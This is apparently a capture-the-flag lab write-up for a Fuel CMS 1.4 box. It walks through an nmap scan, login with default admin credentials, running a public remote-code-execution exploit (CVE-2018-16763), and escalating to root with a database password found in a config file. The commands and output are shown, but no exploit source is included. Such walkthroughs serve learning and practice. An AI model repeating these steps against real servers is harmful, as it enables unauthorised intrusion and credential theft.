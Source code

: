 first start the machine and start with a basic nmap scan to find what's running 
```bash
nmap -A -p- -T4 10.48.144.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 10:48 +06
Nmap scan report for 10.48.144.132
Host is up (0.081s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
| http-robots.txt: 1 disallowed entry
|_/fuel/
```
only port 80 open.
visiting the port 80 provides a default installation page of fuel cms along with version number 1.4
At the bottom of the page we find the url of admin panel also with default creds and luckily those creds haven't been changed and working
Now we have the admin panel access
I found nothing interesting there, so I searched for vulnerabilities of fuel cms 1.4
```bash
searchsploit fuel CMS 1.4
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                            | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                            | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                            | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                           | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                  | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                      | php/webapps/48778.txt
-------------------------------------------------------------------------------------- ---------------------------------
```
We have RCE exploit.

Let's exploit it. First we need to find this exploit path for execute
```bash
searchsploit -p 47138
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied EDB-ID #47138's path to the clipboard
```
We have the path, now execute:
```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py --url http://10.10.160.108/
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
we have the server access and you'll get an issue in it.
The issue you'll experience is that each command runs independently and doesn't maintain state between commands. For example, cd won't work
```bash
Enter Command $pwd
system/var/www/html


Enter Command $cd /home
system

Enter Command $pwd
system/var/www/html
```
So I made a solution, a custom exploit script(a modified version of this exploit)
Download the script and run it
then navigate to the /home/www-data/ folder for the user flag

Now it's privilege escalation time:
I ran linpeas on the target and got an interesting file to look at
/var/www/html/fuel/application/config/database.php
Upon opening we got the creds
```bash
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'REDACTED',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
```
Use the pass for switching to root and read the root flag.
